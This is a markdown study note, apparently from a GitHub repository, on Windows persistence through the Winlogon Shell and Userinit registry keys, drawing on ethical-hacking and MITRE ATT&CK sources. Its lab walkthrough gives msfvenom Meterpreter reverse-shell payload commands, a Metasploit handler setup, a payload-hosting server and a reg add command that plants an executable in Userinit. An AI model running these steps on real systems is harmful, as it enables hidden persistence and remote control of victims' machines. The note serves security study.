









# Leveraging Registry Keys Utilized by the Winlogon Process
The Winlogon process is a crucial component of the Windows operating system, responsible for several key functions including:

Facilitating user logon and logoff operations
Managing system startup and shutdown procedures
Implementing screen locking functionality.

**The most important registry keys** for this techniques are listed as follows:
```powershell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

### Key Registry Entries for Winlogon
## 1. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

- **Purpose:** This key specifies the default shell used by the operating system. By default, it is set to explorer.exe, which is the Windows graphical user interface.
- **Exploitation:** Attackers can modify this entry to point to a malicious executable. This ensures that the malicious program runs instead of or alongside the normal user interface when the user logs in.


## 2. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

- **Purpose:** This key specifies the program that initializes the user environment during the logon process. By default, it is set to userinit.exe.
- **Exploitation:** Attackers can append or replace this entry with a path to their malicious executable. This causes the malicious program to run during the user initialization process, ensuring that it executes every time a user logs in.

## Requirements for Successful Exploitation
- **Local Administrator Privileges:** Modifying these critical registry keys requires local administrator privileges. Attackers must elevate their privileges on the compromised system to make these changes.
- **Persistence:** Once the registry keys are modified, the malicious programs will persist through reboots and logons, making it difficult to detect and remove them.

## Summary
By modifying the Winlogon registry keys (Shell and Userinit), attackers can maintain a persistent foothold on a compromised Windows system. This technique ensures that their malicious programs run during system startup or user logon, leveraging the essential functions of the Winlogon process. However, successfully implementing this strategy requires local administrator privileges, highlighting the importance of securing administrative access and monitoring critical registry changes to detect potential malicious activities.

---
# Example #1
- This example is based on Chapter 3 - Malware Persistence Mechanisms in [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- More explanation by cocomelonc (Zhassulan Zhussupov) can be found in his [blog](https://cocomelonc.github.io/).
## Step 1. Compile `hack.c`
```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
## Step 2. Compile `pers.c`
```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Check the registry keys
```powershell
 reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

---

# Example #2
This example is based on [Persistence – Winlogon Helper DLL](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/) by Penetration Testing Lab.

## Step 1. Generate a malicious payload
```bash	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f exe > hack3.exe
```


Open a server for victim's Windows 10 VM to download the malicious payload.
```bash
python -m http.server 8000
```
Make sure you move `hack2.exe` to the folder `C:\Windows\Sytem32`. You can open the `Registry Editor`:


- Press `WIN + R` and type `regedit`.


- Right-click `Start` , then select Run. Type regedit in the Open: box, and then select OK ([How to open Registry Editor in Windows 10](https://support.microsoft.com/en-gb/windows/how-to-open-registry-editor-in-windows-10-deab38e6-91d6-e0aa-4b7c-8878d9e07b11)).

Modify the value in `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` to includ `hack3.exe`.



The malicious payload will be executed during Windows authentication, establishing a connection.

One more thing I can do it to modify `Logon Script`


## Step 2. Exploit

```bash
sudo msfconsole
```


```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
exploit
```


or use the commands
```powershell
reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon” /v Userinit /t REG_SZ /d “C:\Windows\System32\userinit.exe,C:\Windows\System32\hack2.exe” /f

```

# Step 3. Notify Registry

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll > pentestlab.dll
```

(coming soon)

---

# References
- Zhassulan Zhussupov (2024)Chapter 3 - Malware Persistence Mechanisms , [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers). Available from: https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers [Accessed 08 August 2024].
- MITRE ATT&CK (2024) [Boot or Logon Autostart Execution: Winlogon Helper DLL](https://attack.mitre.org/techniques/T1547/004/). Available from: https://attack.mitre.org/techniques/T1547/004/ [Accessed 08 August 2024].
- Red Team Notes (2020) [Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper) (blog). Available from: https://www.ired.team/offensive-security/persistence/windows-logon-helper [Accessed 08 August 2024].
- Hadess (2023) The Art of Windows Persistence (blog). Available from: https://hadess.io/the-art-of-windows-persistence/ [Accessed 08 August 2024].
-Penetration Testing Lab (2020) Persistence – Winlogon Helper DLL (blog). Available from: https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/ [Accessed 08 August 2024].